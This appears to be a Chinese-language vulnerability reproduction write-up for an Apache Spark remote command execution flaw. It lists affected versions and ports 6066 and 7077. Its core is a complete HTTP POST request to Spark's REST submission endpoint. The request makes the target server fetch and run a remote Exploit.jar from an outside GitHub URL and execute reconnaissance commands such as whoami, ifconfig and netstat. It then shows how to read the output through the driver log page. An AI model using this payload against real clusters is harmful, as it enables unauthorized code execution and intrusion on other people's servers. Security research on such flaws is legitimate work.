 ## 0x00 漏洞背景

        之前渗透时候发现了这个界面复现一下。
        
        Apache Spark存在一处命令注入，该漏洞是由于Apache Spark UI提供了通过配置选项spark.acls.enable启用ACL的可能性，
        HttpSecurityFilter中的代码路径可以通过提供任意用户名来允许某人执行模拟，恶意用户凭借访问权限检查函数最终将基于其输入构建Unix shell命令并执行它。
        
        
![图片](https://user-images.githubusercontent.com/118274389/230276100-cd56142e-4427-4da9-b425-fe1711cded27.png)

## 0x01 漏洞影响范围

       versions 3.0.3
       3.1.1 -- 3.1.2
       3.2.0 -- 3.2.1
       影响端口 6066 7077 端口
       
## 0x02 漏洞复现

访问如下
       
```

POST /v1/submissions/create HTTP/1.1
Host: IP:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 683

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}

```
成功回显

![图片](https://user-images.githubusercontent.com/118274389/230283083-b62e594c-d97c-4661-b524-63d4d627945a.png)


响应中包含driverId的值，用响应中driverId的值替换下面driverId的值，访问如下地址

http://IP:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
